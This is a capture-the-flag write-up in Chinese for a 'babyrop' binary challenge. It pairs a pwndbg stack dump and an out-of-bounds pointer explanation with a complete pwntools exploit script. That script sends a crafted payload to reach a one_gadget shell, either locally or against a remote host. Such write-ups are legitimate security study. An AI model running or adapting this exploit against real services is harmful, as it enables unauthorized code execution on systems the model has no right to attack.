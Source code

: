 思路是先两次`((`让结构体里的`rsp_`越界

```asm
pwndbg> stack 30
00:0000│ rsp  0x7ffef245fbe0 —▸ 0x558692b96148 ◂— 0x2
01:0008│      0x7ffef245fbe8 —▸ 0x558692b96150 —▸ 0x7ffef245fca0 ◂— 0x11486eca0 !!!!
02:0010│      0x7ffef245fbf0 —▸ 0x558692b96140 ◂— 0x2
03:0018│      0x7ffef245fbf8 —▸ 0x558692b96040 ◂— 0x3400000000562828 /* '((V' */
04:0020│      0x7ffef245fc00 ◂— 0x0
... ↓
0e:0070│      0x7ffef245fc50 ◂— 0x100000100
0f:0078│      0x7ffef245fc58 ◂— 0xe11547f75d191800
10:0080│ rbp  0x7ffef245fc60 —▸ 0x7ffef245fc80 —▸ 0x558692995430 ◂— push   r15
11:0088│      0x7ffef245fc68 —▸ 0x558692994977 ◂— mov    edi, 0
12:0090│      0x7ffef245fc70 —▸ 0x7ffef245fd60 ◂— 0x1
13:0098│      0x7ffef245fc78 ◂— 0xe11547f75d191800
14:00a0│      0x7ffef245fc80 —▸ 0x558692995430 ◂— push   r15
15:00a8│      0x7ffef245fc88 —▸ 0x7fb21429f830 (__libc_start_main+240) ◂— mov    edi, eax
16:00b0│      0x7ffef245fc90 ◂— 0x1
17:00b8│      0x7ffef245fc98 —▸ 0x7ffef245fd68 —▸ 0x7ffef246120c ◂— './babyrop'
18:00c0│      0x7ffef245fca0 ◂— 0x11486eca0
```

两次`((`后：`01:0008│      0x7ffef245fbe8 —▸ 0x558692b96150 —▸ 0x7ffef245fca0 ◂— 0x11486eca0 !!!!`，可以看到已经越界了

然后就是利用栈上的`0x7fb21429f830 (__libc_start_main+240)`和那几个有bug的函数进行加加减减，最后把返回地址给改为`one_gadget`

```asm
► 0x558692995428                     leave  
   0x558692995429                     ret    
    ↓
   0x7fb2142c426a <do_system+1098>    mov    rax, qword ptr [rip + 0x37ec47]
   0x7fb2142c4271 <do_system+1105>    lea    rdi, [rip + 0x147adf]

```

exp为:

```python
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def main(host,port=17676):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./babyrop")
		# gdb.attach(p)
		debug(0x000000000000CB2)	
	payload = "((V"+p32(0)+"44V"+p32(0x24a3a)+"!44444"
	p.send(payload.ljust(0x100,"\x00"))
	p.interactive()	
if __name__ == "__main__":
	main(args['REMOTE'])
```
